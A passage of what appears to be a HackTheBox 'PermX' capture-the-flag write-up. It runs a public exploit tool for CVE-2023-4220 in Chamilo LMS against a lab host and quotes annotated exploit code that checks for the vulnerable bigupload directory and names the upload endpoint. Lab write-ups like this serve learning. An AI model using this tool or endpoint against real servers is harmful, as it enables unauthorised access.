**heads up: you may need root permissions to open up a port, in which case just put a "sudo" at the beginning**

### Exploit/Installation

first, let's use the included tool to just make sure it's vulnerable:

``` console
python3 main.py -u http://lms.permx.htb -a scan
```

going through the python code it looks like it is calling the following function to run the scan, and is seeing if the vulnerable directory is returning a 200 HTTP code:

(from: https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS/blob/main/exploit.py)

``` python
import requests
from typing import Union

class ChamiloBigUploadExploit:
    def __init__(self, url: str) -> None: #self in this instance referring to the current class instance
        self.root_url = url
        self.check_url = f'{self.root_url}/main/inc/lib/javascript/bigupload/files/' #appending the vulnerable directory to the end of the provided URL, may be worth doing a recursive ffuf scan in the future to find things like this
        self.vunerable_endpoint = f'{self.root_url}/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'


    @staticmethod
    def urlencode_all_characters(string):
        return ''.join('%{0:0>2x}'.format(ord(char)) for char in string)


    def check_target_vulnerable(self) -> bool:
        response = requests.get(self.check_url)

        if response.status_code == 200: # checking the HTTP code
            return True
        else:
            return False
# and so on and so forth, cutting off here for brevity
```

you should see this:

![](/assets/img/htb_permx/Screenshot_from_2024-09-16_22-54-44.png)
